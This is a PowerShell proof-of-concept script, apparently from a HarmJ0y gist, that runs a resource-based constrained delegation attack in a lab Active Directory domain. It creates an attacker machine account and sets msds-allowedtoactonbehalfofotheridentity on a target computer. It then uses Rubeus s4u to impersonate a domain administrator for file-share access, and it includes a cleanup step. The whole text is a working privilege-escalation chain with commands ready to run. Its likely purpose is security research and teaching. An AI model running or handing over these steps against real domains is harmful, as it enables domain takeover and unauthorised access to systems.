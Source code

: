 ```powershell
# verify the GenericWrite permissions on $TargetComputer
$ACE = Get-DomainObjectACL $TargetComputer | ?{$_.SecurityIdentifier -match $AttackerSID}
$ACE

ConvertFrom-SID $ACE.SecurityIdentifier

# add a new machine account that we control
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

# get the SID of the new computer we've added
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

# build the new raw security descriptor with this computer account as the principal
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"

# get the binary bytes for the SDDL
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# set new security descriptor for 'msds-allowedtoactonbehalfofotheridentity'
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# confirming the security descriptor add
$RawBytes = Get-DomainComputer $TargetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
$Descriptor.DiscretionaryAcl

# currently don't have access to primary\C$
dir \\primary.testlab.local\C$

# get the hashed forms of the plaintext
.\Rubeus.exe hash /password:Summer2018! /user:attackersystem /domain:testlab.local

# execute Rubeus' s4u process against $TargetComputer
#   EF266C6B963C0BB683941032008AD47F == 'Summer2018!'
#   impersonating "harmj0y" (a DA) to the cifs sname for the target computer (primary)
.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:harmj0y /msdsspn:cifs/primary.testlab.local /ptt


# cleanup - clear msds-allowedtoactonbehalfofotheridentity
Get-DomainComputer $TargetComputer | Set-DomainObject -Clear 'msds-allowedtoactonbehalfofotheridentity'

# source https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff#file-rbcd_demo-ps1
```
